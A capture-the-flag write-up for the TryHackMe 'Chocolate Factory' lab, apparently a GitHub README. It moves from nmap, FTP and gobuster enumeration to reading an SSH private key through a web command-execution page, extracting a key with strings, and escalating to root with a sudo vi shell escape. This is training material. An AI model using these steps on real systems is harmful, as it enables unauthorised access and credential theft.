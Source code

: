 # TryHackMe-Chocolate-Factory-WriteUp
TryHackMe Chocolate Factory WriteUp

first we scan the machine using nmap using the command: nmap -sV [IP HERE]

nmap scan:
----------
21/tcp  open  ftp        vsftpd 3.0.3
22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))
100/tcp open  newacct?
106/tcp open  pop3pw?
109/tcp open  pop2?
110/tcp open  pop3?
111/tcp open  rpcbind?
113/tcp open  ident?
119/tcp open  nntp?
125/tcp open  locus-map?
----------
we login to ftp using username: "anonymous" and password: "anonymous"

ftp found "gum_room.jpg", used steghide to extract it: "steghide extract -sf gum_room.jpg"
didnt put passphrase, b64.txt extracterd.
found what looks like a /etc/shadow file. didnt find anything usefull.
----------
we open the webpage and find a login portal.
i used gobuster to enumrate directories.
"gobuster dir -u http://[IP HERE] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html"
gobuster: the name of the tool.
dir: specify we want to bruteforce directiories.
-u: specify the url
-w: specify the world list
-x: look for filees with exstinsions.

result: 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://[IP HERE]
[+] Method:                  GET
[+] Threads:                 54
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 1466]
/home.php             (Status: 200) [Size: 569]
/validate.php         (Status: 200) [Size: 93]
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
----------
we navigat to home.php, you can run commands in it.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/31328d5d-7b3c-4da8-9d8b-fd4475152840)

we try the whoami command

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/8cf2685a-7078-42d9-9941-39b071417adb)

it works!
we search for users in the home directory using “ls /home"

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/96d7bf6b-4f29-4aef-97c2-fd7cfe113a57)

found user charlie, we list the files, using "ls /home/charlie"

 ![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/3c453544-953a-44d1-b065-04195b075d5a)

"cat /home/charlie/teleport", Bingo! found ssh private key.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/82535ef1-a991-4952-89a4-b67110ab22bb)

i copied it into id_rsa file then give it the right permissions using “chmod +600”
test if we can login using ssh to the user.
the credintials works!

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/9522c208-f459-47b1-ae7f-8c4100d71e28)

in /var/www/html i found a file named key_rev_key, i try to run it:

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/0297133e-a4ca-474e-9666-f5e0b726651c)

changed the permissions using “chmod +x key_rev_key”

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/b2901f69-3384-42a9-bada-0c384fbf021e)

since its a binary, we can check the file contents using “ strings key_rev_key”

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/34ce26e8-bcc5-4d97-b07f-0afe6d27704d)

got the key! 
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='

in /var/www/html we "cat" validate.php: 

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/2199617c-b703-453a-aaad-aba2359fb1cd)

run validate.php , bingo we got charlies password :)

login to charlies account using "su charlie"
user.txt:
![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/afefcc59-1a50-41a5-b35c-11c2ad7a984d)

----------
Privilge escalition:

in charlie, i tried "sudo -l"

result:

Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi


in gtfobins, vi -c ':!/bin/sh' /dev/null
tried run "sudo vi -c ':!/bin/sh' /dev/null"
charlie@chocolate-factory:/home/charlie$ sudo vi -c ':!/bin/sh' /dev/null
pwned!!

root flag:

we find root.py
we run it , enter the key we obtained before , and it shows us the root flag.

![image(1)](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/cabbb2fe-8af8-46ec-a323-7764c1441762)

Happy Pwning :)
